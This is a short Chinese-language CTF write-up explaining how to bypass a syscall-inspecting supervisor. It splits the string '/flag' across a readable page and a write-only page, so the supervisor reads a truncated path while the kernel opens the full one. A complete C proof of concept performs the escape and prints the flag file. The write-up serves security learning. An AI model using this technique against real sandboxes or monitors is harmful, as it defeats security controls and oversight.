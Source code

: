 ## 为什么要打开 /flag 😡

映射两个内存页，第一个页面为 `rw`，第二个页面为 `-w`。将 `/flag` 跨在两个页面上，`process_vm_readv` 只能读 `r` 页，导致 Supervisor 读到的 path 被截断。而内核只要页面不是 `PROT_NONE` 都可以接受，所以在内核视角下看到的将是完整的 `/flag` 路径

```c
#include <fcntl.h>
#include <sys/mman.h>

int my_errno;
#define SYS_ERRNO my_errno

#include "linux_syscall_support.h"

int _start() {
    int size = 4096;

    char * addr = (char*) sys_mmap(NULL, 2*size, PROT_WRITE | PROT_READ, MAP_ANONYMOUS | MAP_PRIVATE, 0, 0);
    *(addr + size - 1) = '/';
    *(addr + size - 0) = 'f';
    *(addr + size + 1) = 'l';
    *(addr + size + 2) = 'a';
    *(addr + size + 3) = 'g';
    *(addr + size + 4) = '\0';

    sys_mprotect(addr + size, size, PROT_WRITE) == -1;

    int fd = sys_open(addr + size - 1, O_RDONLY, O_CLOEXEC);
    char buf[64];
    sys_read(fd, buf, 64);
    sys_write(1, buf, 64);

    return 0;
}
```
